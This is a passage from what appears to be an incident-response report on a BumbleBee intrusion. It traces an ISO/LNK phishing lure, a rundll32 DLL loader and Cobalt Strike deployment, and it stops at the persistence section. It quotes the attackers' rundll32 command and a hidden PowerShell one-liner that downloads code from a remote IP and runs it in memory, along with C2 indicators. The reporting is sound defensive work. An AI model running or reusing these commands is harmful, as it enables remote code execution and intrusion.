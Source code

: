 The threat actors were then evicted from the environment before any final actions could be taken. We assess based on the level of access and discovery activity from the final day, the likely final actions would have been a domain wide ransom deployment.

# Initial Access

The threat actors managed to get access to the beachhead host after the successful execution of a lnk file within an ISO, which are usually distributed through email campaigns.

The initial payload named BC_invoice_Report_CORP_46.iso, is an ISO image that once mounted, lures the user to open a document.lnk file which will execute the malicious DLL loader using the following command line:

C:\Windows\System32\cmd.exe /c start rundll32 namr.dll,IternalJob

Running Eric Zimmerman’s tool LECmd revealed additional details related to the threat actors. The metadata included TA machine’s hostname, MAC address, and the LNK document creation date:

# Execution

# Execution of multiple payloads

The successful execution of BumbleBee payload (namr.dll) resulted in the dropping and the execution of several payloads using multiple techniques. The graph below shows all the payloads dropped by BumbleBee, the way they were executed, and the different processes they injected into:

Sysmon File Created event showing wab.exe created by rundll32.exe

Sysmon Event Code 1 showing wab.exe executed by WMI

# Execution of Cobalt Strike

The following PowerShell one-liner was executed from wab.exe during day 11, which downloaded obfuscated PowerShell and executed it in memory:

C:\Windows\system32\cmd.exe /C powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://104.243.33.50:80/a'))"

Since the download took place over an unencrypted HTTP channel, the network traffic was plainly visible.

This payload can be deobfuscated using the following CyberChef recipe:

Once deobfuscated, we can spot the MZRE header, which is part of the default configuration of Cobalt Strike:

One of the easiest ways to extract valuable information from this Shellcode is using Didier Stevens 1768.py tool:

The command and control server was hosted on (108.62.12[.]174/dofixifa[.]co). The full config extraction, detailing the Malleable C2 profile, is available in Command and Control section.

# Persistence
